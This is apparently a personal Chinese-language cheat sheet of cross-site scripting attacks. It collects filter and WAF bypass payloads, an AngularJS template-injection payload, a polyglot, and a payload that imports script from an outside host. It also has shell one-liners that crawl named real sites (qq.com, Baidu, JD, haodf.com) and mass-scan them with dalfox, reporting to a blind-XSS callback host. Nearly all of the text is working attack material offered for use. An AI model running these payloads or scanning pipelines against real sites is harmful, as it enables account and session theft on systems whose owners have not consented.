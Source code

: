 # XSS

## 2021.2.13 Fuzz技巧

![image-20210213152848214](XSS.assets/image-20210213152848214.png)

非常不错,包含了xml和xss的许多payload

```
npm install -g pown
pown modules install @pown/dicts
pown dicts -p xss >  xss.doc
ls -lah xss.doc
```



基于javascript下的绕过:

原理:

```
B=1
B["constructor"]["constructor"]("alert(1)")();
```

不同语言版:https://t.co/cqmLwZmuo5?amp=1





## Bypass

![5934BE93A312FA7C13363F1A4C187775](XSS.assets/5934BE93A312FA7C13363F1A4C187775.png)



>Reflected XSS Akami Waf Bypass in Redirect Parameter using HTTP Parameter Pollution and Double Url Encode:

```
/login?ReturnUrl=javascript:1&ReturnUrl=%2561%256c%2565%2572%2574%2528%2564%256f%2563%2575%256d%2565%256e%2574%252e%2564%256f%256d%2561%2569%256e%2529
```



## 执行弹框的方法

```
<Img Src=//X55.is OnLoad=import(src)>
<Img+Src=//X55.is+OnLoad=import(src)>#confirm(document.domain)//
```



## 遇到ASP.net类型可以尝试unicode绕过

```
Xss in asp pages reflected inside span and < blocked.
Payloads:
%u003Csvg onload=alert(1)>
%u3008svg onload=alert(2)> 
%uFF1Csvg onload=alert(3)>
```





### unicode绕过checklist:

https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html



![EdH22_MXsAAYcKK](XSS.assets/EdH22_MXsAAYcKK.jpeg)

```
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
```





如果允许但引号逃逸,闭合可以采用运算来避免错误。

```
<, > ==> REMOVED
'-anything()-' ==> '-anything-'
'-alert()-' ==> REMOVED
'-setTimeout``-' = allowed

Final Payload:
'-setTimeout`prompt\u0028document.domain\u0029`-
```





### 双引号被转义的时候逃逸

```
<xhzeem/x=" onmouseover=eva&#x6c;?.(id+/(document.domain)/.source) id=confirm>

Works in cases where double quotes are escaped 

<xhzeem/x=\" ....>

```



## alert(1) 绕过技巧

```
window.alert?.() and (window?.alert)`` 
```



## 挖掘XSS技巧

### 组件漏洞

an AngularJS Client-Side Template Injection as XSS payload for 1.2.24-1.2.29

Payload:

```
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```



## Dorks

```
1.iconUrl=XSS
```



## 探测XSS的payload

Polyglot payload:

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```





## one-liner

```
python3 paramspider.py --domain qq.com -s TRUE -e js,css,woff,ttf,svg --output hackerone.txt

cat output/hackerone.txt| deduplicate --hide-images --sort | sed '1,4d'|httpx -status-code -mc 200 -silent | awk '{print $1}' |dalfox pipe --silence -b 360cdn.xss.ht | cut -d " " -f2

cat output/baidu.txt | deduplicate --hide-images --sort | sed '1,4d'|httpx -status-code -mc 200 -silent | awk '{print $1}' | dalfox pipe --silence -b 360cdn.xss.ht

cat src.txt| xargs -I {} python3 paramspider.py --domain {}  -s TRUE -e js,css,woff,ttf,svg,png,gif,jpg,PNG --output ./src/{}.txt

cat all_jd_sub_domain.txt|deduplicate|httpx -status-code -mc 200,301 -silent| awk '{print $1}' > 200_sub_jd.txt

cat src.txt| xargs -I {} | &&  cat ./src/*.txt | deduplicate --hide-images --sort | sed '1,4d'|httpx -status-code -mc 200 -silent | awk '{print $1}' >  src_url.txt && python3 removeDepeat.py && cat remove_src_url.txt | dalfox pipe --mass-worker 50 -b 360cdn.xss.ht  -o final_xss.txt
```



## 收集URL

```
gospider -s "https://passport.haodf.com/" --cookie "" -o output -c 10 -d 1 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|svg)" 
```





## XSS相关的网站

比较安全:`https://xsshunter.com/`